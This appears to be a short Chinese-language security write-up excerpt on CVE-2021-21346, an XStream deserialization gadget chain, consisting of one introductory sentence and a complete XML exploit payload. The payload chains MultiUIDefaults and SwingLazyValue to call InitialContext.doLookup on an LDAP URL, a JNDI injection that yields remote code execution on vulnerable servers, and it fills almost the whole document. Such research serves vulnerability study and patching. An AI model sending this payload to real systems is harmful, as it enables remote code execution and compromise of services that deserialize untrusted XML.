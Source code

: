 
CVE-2021-21346相对上面这些是条新链，和CVE-2021-21351类似。毕竟是一个作者挖的。先来看CVE-2021-21346
```
<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='javax.swing.MultiUIDefaults' serialization='custom'>
      <unserializable-parents/>
      <hashtable>
        <default>
          <loadFactor>0.75</loadFactor>
          <threshold>525</threshold>
        </default>
        <int>700</int>
        <int>0</int>
      </hashtable>
      <javax.swing.UIDefaults>
        <default>
          <defaultLocale>zh_CN</defaultLocale>
          <resourceCache/>
        </default>
      </javax.swing.UIDefaults>
      <javax.swing.MultiUIDefaults>
        <default>
          <tables>
            <javax.swing.UIDefaults serialization='custom'>
              <unserializable-parents/>
              <hashtable>
                <default>
                  <loadFactor>0.75</loadFactor>
                  <threshold>525</threshold>
                </default>
                <int>700</int>
                <int>1</int>
                <sun.swing.SwingLazyValue>
                  <className>javax.naming.InitialContext</className>
                  <methodName>doLookup</methodName>
                  <args>
                    <arg>ldap://localhost:1099/CallRemoteMethod</arg>
                  </args>
                </sun.swing.SwingLazyValue>
              </hashtable>
              <javax.swing.UIDefaults>
                <default>
                  <defaultLocale reference='../../../../../../../javax.swing.UIDefaults/default/defaultLocale'/>
                  <resourceCache/>
                </default>
              </javax.swing.UIDefaults>
            </javax.swing.UIDefaults>
          </tables>
        </default>
      </javax.swing.MultiUIDefaults>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```